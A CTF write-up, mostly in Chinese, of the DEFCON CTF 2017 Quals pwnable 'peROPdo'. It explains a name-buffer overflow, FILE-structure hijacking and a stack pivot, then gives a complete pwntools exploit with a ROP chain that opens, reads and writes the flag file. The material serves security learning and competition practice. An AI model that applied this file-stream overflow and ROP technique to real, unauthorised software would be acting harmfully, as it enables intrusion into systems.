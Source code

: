 ```yaml
---
title: "[DEFCON CTF 2017 Quals] peROPdo"
author: bruce30262
tags:
- pwn
- buffer overflow
- ROP
- file stream pointer overflow
- DEFCON CTF 2017
categories:
- write-ups
date: '2017-05-03'
layout: post
---
```


## Info  
> Category: Potent Pwnables  
> Author: bruce30262 @ BambooFox  

## Analyzing
32 bit ELF, **static linked & stripped**, 有開 DEP 保護

程式是個簡單的骰子程式，輸入完名字後程式會問你要骰幾個骰子，輸入一個正整數後，程式會隨機產生資料，存在 `data[i]` 裡面。之後程式會輸出 `data[i] % 6 + 1`，代表這一輪我們骰的數字。

這題有兩個漏洞:
1. 輸入名字時是用  `scanf("%s", name);`  的方式讀取，造成  `name`  buffer 有 overflow 的情形 ( `name` 位於 data 段)  
2. 程式存資料  `data[i]`  是存在 stack 上，因此如果我們骰太多骰子的話，會造成 `data[i]` 的資料覆蓋到 return address ( stack overflow )。

## Exploit
一開始本來打算利用第二個漏洞 ( stack overflow ) 來做 exploit，不過因為 `data[i]` 的資料是隨機化的結果，我們沒辦法隨心所欲的控制 return address 的內容。

這邊在解題時犯了一個錯誤: **誤認為程式所用的隨機化函式是自行 implement 的函式**。因為 binary 被 stripped 掉的關係，加上是 static linked 的 binary，因此當時無法判斷哪些是自行 implement 的 function，哪些是 libc 內部的 function。也因為這樣，在這題浪費了大量的時間在搞 symbolic execution tool，想說可以利用這些工具來幫助我們解出想要的 return address。結果 [angr](http://angr.io/) 不會用，[Triton](https://github.com/JonathanSalwan/Triton) 跟 [manticore](https://github.com/trailofbits/manticore) 則是連跑都跑不起來，一整個慘...... 

後來就想說換個方向，試試看第一個漏洞 ( `name` 的 buffer overflow )。結果發現到說可以控到 EIP，似乎是因為在 `name` buffer 的後面存有一些 `FILE*` pointer，導致我們可以透過[偽造`FILE`](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)結構來達到 hijack control flow 的效果。

於是透過一些動態分析，我們發現說我們可以透過一個 `call [reg+offset]` 的 gadget 來控制 EIP，且第二個參數會是 `stdout`。於是我先將程式跳至 main function 的中間:
```
mov     dword ptr [esp+4], offset name
mov     dword ptr [esp], (offset aSSSS+8) ; "%s" <--- 跳到這裡
call    scanf
mov     eax, ds:name
mov     [esp], eax
call    sub_0804baf0
mov     dword ptr [esp], offset name
call    do_main
```

會這樣跳是因為接下來程式會將 `%s` 放到第一個參數，並且呼叫 `scanf()`，讓程式執行 `scanf("%s", stdout)`，我們就可以完整的控制 `stdout` 的內容，之後就可以做更進一步的 ROP attack  

以下是我最後的 ROP chain:
* 先用 `xchg esp, eax` 將 stack migrate 至 `stdout` (此時 stdout 內容可控)
* 利用 `add esp, offset` gadget 跳過 `stdout` 結構 ( 必須跳過一些我們偽造的 data )
* 利用 gadgets 作出 open/read/write 的 syscall，將 flag 吐出來 ( 這題有擋 `execve()` )

Final exploit:
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "peropdo_bb53b90b35dba86353af36d3c6862621.quals.shallweplayaga.me"
PORT = 80
ELF_PATH = "./peropdo"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    #gdb.attach(r, gdbscript=open("./ggg", "r"))
    func = 0x0806d7aa # avoid crash
    scanf = 0x08048b2a
    name = p32(scanf) + p32(func) + "\x42"*972 + p32(0x80ecdf4) + '\x00'*92  + p32(0x80ecdf8) 
    r.sendlineafter("name?", name)

    # Later the program will call scanf("%s", stdout);
    # now we can overwrite the whole stdout FILE structure

    stream = p32(0x08079824) # second gadget: add esp, 0x84....
    stream += "/home/peropdo/flag\x00" # flag path
    stream = stream.ljust(0x1c, '\0')
    stream += p32(0x804b45c) # eip, first gadget: xchg esp, eax ; ret
    stream = stream.ljust(0x48, '\0')
    stream += p32(0x080ED3E8) # pointer to null
    stream = stream.ljust(0x90, '\0')
    stream += p32(0x807982b) # third gadget: pop; ret
    stream += p32(0x80eb2a0) # fake jump table
    
    # 0x08074f2e : mov eax, 5 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 
    # 0x08079465 : mov ebx, eax ; mov eax, ebx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    pop_ebx = 0x806f322  # pop ebx;ret
    pop_eax = 0x80e3525  # pop eax;ret
    pop_ecx = 0x080e5ee1 # pop ecx ; ret 
    pop_edx = 0x0806f2fa # pop edx ; ret
    int80 = 0x806fae0    # int 0x80 ; ret 
    buf = 0x80ed000-0x100
    rop = flat(
                pop_ecx,
                0,
                pop_edx, 
                0,
                0x08074f2e, # mov eax = 5 (open), pop ebx...
                0x80eb2a4, # ptr to flag path
                [0,0,0],
                int80,              
                pop_eax,
                3, # read
                pop_ebx,
                3, #fd
                pop_ecx,
                buf,
                pop_edx,
                0x100,
                int80,
                pop_ebx,
                1, # fd,
                pop_eax,
                4, # write
                int80
              )

    r.sendline(stream + rop)
    r.interactive()
```

flag: `Thanks to Kenshoto for the inspiration! 5fbb34920c457b2e0855a174b8de3ebc`

## Note
這題解到一半時，隊友 **Isaac** 提醒說 IDA 有個東西叫 [FLIRT](https://www.hex-rays.com/products/ida/tech/flirt/index.shtml)，可以透過一些 [signature database](https://github.com/push0ebp/sig-database) 來辨別 libc 的 function，讓我們在做 reversing 時可以輕鬆一點。直到那時我才知道，程式裡面的隨機化函式其實就只是 libc 裡面的 `srand()` 和 `random()`......所以其實可以直接用暴力法把我們要跳的 return address 給爆出來......不過當時用 file stream pointer overflow 解到一半了，就沒有用這種方式解，要不然應該會快上許多。就當作是長經驗吧 Q_Q